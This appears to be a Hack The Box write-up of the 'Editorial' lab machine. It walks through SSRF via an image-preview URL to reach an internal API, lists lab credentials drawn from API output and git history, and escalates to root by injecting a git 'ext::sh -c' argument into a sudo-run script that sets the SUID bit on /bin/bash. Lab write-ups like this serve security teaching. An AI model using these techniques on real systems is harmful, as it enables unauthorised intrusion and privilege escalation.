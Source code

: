 ```yaml
---
title:  HTB - Editorial
date: 2020-11-18 12:17:34 -0400
categories: [hackthebox , Editorial]
tags: [SSRF, Python, Git]
image:
  path: /assets/img/post/editorial/Editorial-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Editorial.
---
```


## Box Info

| Name                  | Editorial        | 
| :-------------------- | ---------------: |
| Release Date          | 15 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

![Image](/assets/img/post/editorial/image.png)

echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts  
![Image](/assets/img/post/editorial/image-1.png)
whatweb:
![Image](/assets/img/post/editorial/image-2.png)
Web:
![Image](/assets/img/post/editorial/image-3.png)
dirsearch -u http://editorial.htb/ 
![Image](/assets/img/post/editorial/image-4.png)

This page is interesting, we can preview an image from a file or url.

![Image](/assets/img/post/editorial/image-5.png)

## SSRF

The file name is renamed and the file extension is removed. When we open the preview image in a new tab, the file downloaded directly, so it seems like we can’t execute any shell directly.

When I upload a file and add a url "http://127.0.0.1/" and intercept with BurpSuite, we can see the response 200 OK and showing a image directory location, this point to a `SSRF`.

![Image](/assets/img/post/editorial/image-6.png)

In an [SSRF](https://portswigger.net/web-security/ssrf) attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` (a reserved IP address that points to the loopback adapter) or `localhost` (a commonly used name for the same adapter)

![Image](/assets/img/post/editorial/image-7.png)

The response shows us a directory path, let's download the file and see what's inside.

![Image](/assets/img/post/editorial/image-8.png)

![Image](/assets/img/post/editorial/image-9.png)


![Image](/assets/img/post/editorial/image-10.png)

And re upload the file and add the path in burpsuite.

`/api/latest/metadata/messages/authors`{: .filepath}

![Image](/assets/img/post/editorial/image-11.png)

![Image](/assets/img/post/editorial/image-12.png)

Username: dev - Password: dev080217_devAPI!@
![Image](/assets/img/post/editorial/image-13.png)

user flag
![Image](/assets/img/post/editorial/image-14.png)

![Image](/assets/img/post/editorial/image-15.png)

### Linux Enumeration

```bash
find / -user dev 2>/dev/null | grep -vE "sys|proc"
```

![Image](/assets/img/post/editorial/image-16.png)


![Image](/assets/img/post/editorial/image-17.png)

The command `Git show` displays detailed information about a commit.

![Image](/assets/img/post/editorial/image-18.png)


![Image](/assets/img/post/editorial/image-19.png)

080217_Producti0n_2023!@ for prod
- su `prod`
- password: `080217_Producti0n_2023!@`

## Privilege Escalation

sudo -l

![Image](/assets/img/post/editorial/image-20.png)

```bash
- echo '#!/bin/bash' > /tmp/exploit.sh

- echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```

![Image](/assets/img/post/editorial/image-21.png)

```bash
- sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```

![Image](/assets/img/post/editorial/image-22.png)

- `ls -l /bin/bash`

![Image](/assets/img/post/editorial/image-23.png)

Start a new bash session.

- `/bin/bash -p` 

![Image](/assets/img/post/editorial/image-24.png)

